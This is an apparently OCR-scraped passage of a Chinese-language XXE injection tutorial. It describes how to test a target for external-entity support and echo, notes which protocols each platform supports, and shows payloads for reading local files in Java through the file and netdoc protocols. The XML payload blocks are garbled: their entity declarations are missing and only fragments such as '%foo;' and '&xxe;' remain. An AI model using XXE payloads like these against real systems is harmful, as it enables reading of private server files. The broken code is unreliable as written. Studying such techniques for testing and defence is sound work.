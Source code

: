 ## 1.3、读取文件

在进行利用之前应该先测试下，目标环境有无回显，是否支持外部实体。

```php
检查是否支持外部实体
<?xml version="1.0" encoding="UTF-8"?> 
 
%foo;
]> 
查看你的服务器是否有请求
```

### 1.3.1、不同平台支持的协议

注意：jdk1.8 开始不再支持 gopher 协议

![image.png](assets/1700812438-659bf9cf793c5d8faada79146a835a7c.png)

### 1.3.2、有回显

#### 1.3.2.1、读取本地文件

1、Java 环境下读取文件

netdoc 协议和 file 协议的作用是一样的，都可以读取文件。

```php
<?xml version="1.0" encoding="UTF-8"?> 

 
]> 
<user><username>&xxe;</username><password>admin</password></user>
```
